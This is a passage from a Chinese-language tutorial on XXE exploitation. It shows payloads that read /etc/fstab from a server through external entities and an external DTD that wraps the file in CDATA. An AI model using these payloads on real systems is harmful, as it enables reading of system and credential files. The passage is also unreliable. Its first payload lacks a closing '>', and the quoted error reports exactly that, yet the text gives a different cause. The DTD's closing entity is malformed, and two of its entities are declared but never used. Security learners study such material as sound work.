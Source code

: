 ### 数据转义

XXE漏洞利用中，我们尝试通过回显的方式读取一些文本文件时可能会失败。

使用如下方式读取/etc/fstab文件时会失败：

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY file SYSTEM "file:///etc/fstab"
]>
<root>&file;</root>
```

```
{"timestamp":"2023-05-09T07:41:05.693+0000","status":500,"error":"Internal Server Error","message":"Error on line 4 of document  : The declaration for the entity \"file\" must end with '>'. Nested exception: The declaration for the entity \"file\" must end with '>'.","path":"/XXETest/dom4j"}
```

失败原因为XML解析器将文件作为XML/DTD文档进行引用，当我们引用的文档不符合XML格式时造成本次解析处理失败

![etc_fstab](XXE概要/etc_fstab.png)

解决思路就是将待读取的文件内容使用CDATA进行包裹，从而将其中的特殊字符转义。

`cdata.dtd`

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]">
<!ENTITY all '<![CDATA[%file;]]>'>

```

这次我们的XML文档稍微变化一下：

```
<?xml version="1.0"?>
<!DOCTYPE root PUBLIC "" "http://127.0.0.1/cdata.dtd">
<root>&all;</root>

```
